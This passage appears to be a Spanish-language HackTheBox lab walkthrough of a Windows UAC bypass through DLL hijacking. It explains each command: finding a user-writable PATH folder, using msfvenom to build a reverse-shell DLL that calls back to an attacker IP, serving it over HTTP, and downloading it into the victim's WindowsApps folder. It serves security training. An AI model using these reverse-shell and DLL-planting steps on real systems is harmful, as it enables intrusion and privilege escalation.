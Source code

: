 * **Qué hace:** Invoca `cmd` para expandir la variable de entorno `%PATH%` y mostrar su contenido.
* **Interpretación:** `C:\Users\sarah\AppData\Local\Microsoft\WindowsApps` está en `PATH` y es **dentro del perfil del usuario**, por lo tanto es **escribible por el usuario** en muchos casos. Esto la convierte en un candidato para colocar la DLL maliciosa.

---

## 11. Generar la DLL maliciosa — `msfvenom`

### Comando

```
CyberWolfSec@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```

* **`msfvenom`:** Herramienta para generar payloads de Metasploit.
* **Opciones:**

  * `-p windows/shell_reverse_tcp` — payload que abre una shell reversa en Windows.
  * `LHOST=10.10.14.3` — dirección IP del host atacante donde el payload se conectará (tun0 en el ejemplo).
  * `LPORT=8443` — puerto remoto en el host atacante.
  * `-f dll` — formato de salida: un archivo DLL.
  * `> srrstr.dll` — redirección para guardar la salida en un archivo llamado `srrstr.dll`.
* **Salida informativa:** El comando informa la arquitectura escogida (x86) y el tamaño final del DLL.

---

## 12. Servir el DLL por HTTP — `python3 -m http.server`

```
CyberWolfSec@htb[/htb]$ sudo python3 -m http.server 8080
```

* **Qué hace:** Lanza un servidor HTTP simple en el puerto `8080` para servir archivos desde el directorio actual.
* **Uso:** Facilita la transferencia del archivo `srrstr.dll` al host objetivo usando `curl` o `Invoke-WebRequest`.

---

## 13. Descargar el DLL en la víctima — `curl` con `-O` y ruta destino

```
PS C:\htb> curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"
```

* **`curl URL -O "path"`:** En PowerShell `curl` está mapeado a `Invoke-WebRequest`; el ejemplo descarga el archivo desde la dirección atacante y lo guarda directamente en la ruta de `WindowsApps` dentro del perfil de `sarah`.
* **Resultado buscado:** Poner `srrstr.dll` en un directorio en `PATH` y que sea legible por el futuro proceso auto-elevado.

---